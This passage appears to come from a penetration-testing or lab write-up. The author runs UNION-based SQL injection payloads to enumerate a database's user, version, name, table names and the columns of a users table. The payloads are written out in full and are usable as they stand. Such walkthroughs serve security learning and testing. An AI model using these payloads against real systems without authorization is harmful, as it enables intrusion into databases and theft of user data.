         <img class="img-fluid rounded z-depth-1" src="5-SQLi-proof.png">
    </div>
</div>


 The next step in enumerating the database is to test different injectable commands to gather additional information such as tables names, columns within those tables, database version, etc. To gather that information, I ran the following commands. 

```
# database user permission
' or 1=1 UNION SELECT 1,user(),3;#
# database version
' or 1=1 UNION SELECT 1,@@version,3;#
# database type
' or 1=1 UNION SELECT 1, database(),3;#
# table names
' or 1=1 UNION SELECT 1,group_concat(TABLE_NAME,0x0a),3 from information_schema.tables where table_schema=database();#
# columns in user table
' or 1=1 UNION SELECT 1,group_concat(column_name,0x0a),3 from information_schema.columns where table_name='users';#
```
